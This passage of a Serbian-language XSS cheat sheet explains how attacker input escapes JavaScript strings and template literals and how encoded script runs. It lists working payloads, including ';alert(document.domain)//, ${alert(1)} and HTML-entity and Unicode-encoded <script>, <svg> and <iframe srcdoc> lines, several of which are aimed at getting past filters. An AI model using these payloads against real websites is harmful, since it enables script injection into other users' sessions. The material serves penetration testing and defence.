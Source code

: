 Napomena da u ovom primeru **čak nismo zatvorili jednostruki navodnik**. To je zato što se **HTML parsiranje prvo vrši od strane pregledača**, što uključuje identifikaciju elemenata stranice, uključujući blokove skripti. Parsiranje JavaScript-a radi razumevanja i izvršavanja ugrađenih skripti se vrši tek nakon toga.

### Unutar JS koda

Ako se `< >` sanitizuju, još uvek možete **izbeći string** gde se vaš unos **nalazi** i **izvršiti proizvoljni JS**. Važno je **ispraviti JS sintaksu**, jer ako postoje greške, JS kod neće biti izvršen:

```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Šablonski literali \`\`

Da biste konstruisali **stringove** osim jednostrukih i dvostrukih navodnika, JS takođe prihvata **backticks** **` `` `** . Ovo se naziva šablon literali jer omogućavaju **ugrađivanje JS izraza** koristeći sintaksu `${ ... }`.\
Stoga, ako primetite da se vaš unos **reflektuje** unutar JS stringa koji koristi backticks, možete zloupotrebiti sintaksu `${ ... }` da biste izvršili **proizvoljni JS kod**:

Ovo se može **zloupotrebiti** koristeći:

```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````

### Izvršenje enkodiranog koda

```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```

### Unicode Encode JS izvršavanje

***

Kada je ciljano okruženje osjetljivo na Unicode karaktere, možete koristiti Unicode enkodiranje kako biste izvršili JavaScript kod. Ovo može biti korisno za zaobilaženje filtera ili ograničenja na web stranici.
